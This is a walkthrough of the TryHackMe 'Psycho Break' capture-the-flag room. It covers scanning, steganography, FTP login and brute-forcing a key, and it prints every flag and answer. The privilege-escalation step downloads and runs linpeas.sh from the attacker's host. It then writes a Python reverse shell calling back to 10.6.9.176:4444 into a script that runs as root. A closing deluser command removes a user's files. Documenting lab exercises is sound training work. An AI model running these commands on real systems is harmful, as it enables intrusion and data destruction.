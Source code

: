 # Psycho Break

{% embed url="https://tryhackme.com/room/psychobreak" %}
https://tryhackme.com/room/psychobreak
{% endembed %}

![](<../../.gitbook/assets/Psycho Break.png>)

## Task 1 Recon

#### How many ports are open?

```bash
rustscan -a 10.10.233.93 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-01 05-58-06.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 05-58-28.png>)

{% hint style="success" %}
`3`
{% endhint %}

#### What is the operating system that runs on the target machine?

{% hint style="success" %}
`Ubuntu`
{% endhint %}

## Task 2 Web

#### Key to the looker room

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-02-25.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-03-24.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-04-23.png>)

{% hint style="success" %}
`532219a04ab7a02b56faafbec1a4c1ea`
{% endhint %}

#### Key to access the map

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-05-05.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-20-32.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-20-13.png>)

{% hint style="success" %}
`Grant_me_access_to_the_map_please`
{% endhint %}

#### The Keeper Key

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-23-06.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-24-06.png>)

```bash
gobuster dir -u http://10.10.233.93/SafeHeaven \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
             -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-09-02.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-58-06.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-59-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 06-59-13.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-00-47.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-00-34.png>)

{% hint style="success" %}
`48ee41458eb0b43bf82b986cecf3af01`
{% endhint %}

#### What is the filename of the text file

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-07-04.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-07-53.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-08-09.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-12-38.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-18-57.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-19-12.png>)

{% hint style="success" %}
`you_made_it`
{% endhint %}

## Task 3 Help Mee

#### Who is locked up in the cell?

```bash
wget http://10.10.233.93/abandonedRoom/680e89809965ec41e64dc7e447f175ab/helpme.zip
unzip helpme.zip
cat helpme.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-30-51.png>)

{% hint style="success" %}
`Joseph`
{% endhint %}

#### There is something weird with the .wav file. What does it say?

```bash
binwalk -e Table.jpg
```

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-31-08.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-01 07-33-59.png>)

{% hint style="success" %}
`SHOWME`
{% endhint %}

#### What is the FTP Username

```bash
cd _Table.jpg.extracted
steghide extract -sf Joseph_Oda.jpg -p SHOWME
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 05-32-42.png>)

{% hint style="success" %}
`joseph`
{% endhint %}

#### What is the FTP User Password

{% hint style="success" %}
`intotheterror445`
{% endhint %}

## Task 4 Crack it open

```bash
lftp -u joseph,intotheterror445 10.10.40.209
ftp > ls -A
ftp > get program random.dic
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 05-40-06.png>)

#### The key used by the program

```bash
chmod +x prpgram
for word in $(cat random.dic); do ./program ${word//[$'\t\r\n ']/} | grep -v Incorrect; done
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 05-53-30.png>)

{% hint style="success" %}
`kidman`
{% endhint %}

#### What do the crazy long numbers mean when there decrypted.

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-00-44.png>)

{% hint style="success" %}
`KIDMANSPASSWORDISSOSTRANGE`
{% endhint %}

## Task 5 Go Capture The Flag

#### user.txt

```bash
ssh kidman@10.10.40.209
ls -A
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-08-52.png>)

{% hint style="success" %}
`4C72A4EF8E6FED69C72B4D58431C4254`
{% endhint %}

#### root.txt

```bash
cat .readThis.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-10-44.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-10-27.png>)

```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
ls -lA /var/.the_eye_of_ruvik.py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.9.176",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /var/.the_eye_of_ruvik.py 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-15-25.png>)

```bash
nc -nvlp 4444
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-18-13.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-23-35.png>)

{% hint style="success" %}
`BA33BDF5B8A3BFC431322F7D13F3361E`
{% endhint %}

#### Defeat Ruvik

```bash
deluser --remove-all-files ruvik
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 06-27-56.png>)
